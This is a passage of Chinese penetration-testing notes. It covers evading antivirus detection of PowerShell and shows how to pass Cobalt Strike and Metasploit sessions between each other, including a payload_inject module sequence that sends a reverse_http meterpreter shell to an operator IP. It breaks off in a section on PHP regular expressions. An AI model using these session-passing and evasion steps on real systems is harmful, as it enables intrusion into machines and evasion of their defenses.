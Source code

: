 •poweshell免杀，但是一般防护软件或者系统本身正常调用powershell应用程序的时候都会产生告警，一般的安全设备是过不了的，需要在命令上使用手段绕过安全设备监测。

## Cobalt strike 向Msf传递会话

再配置一个监听器，设置模块为Foreign HTTP 

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps33.jpg) 

配置好后在上线的主机上右击Spawn（增加会话），选择Foreign HTTP监听模块，

这时候msf监听那边就会接收到会话

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps34.jpg) 

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps35.jpg) 

## Msf派生shell给Cobaltstrike

新建一个监听器，设置模块为beacon HTTP

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps36.jpg) 

接下来把kali上获得的meterpreter会话转发到cobaltstrike主机上，

这里我们需要用到一个exploit模块：

\1. exploit/windows/local/payload_inject

\2. set payload windows/meterpreter/reverse_http

\3. set DisablePayloadHandler true

\4. set lhost 192.168.43.147

\5. set lport 8081

\6. set session 4

\7. run

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps37.jpg) 

这时候返回客户端可以发现已经返回一个名为CS的会话

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps38.jpg) 

# 正则表达式

### 渗透测试常用的正则

php中使用正则的两个函数

preg_match_all(正则表达式,匹配字符串)

返回匹配到的次数
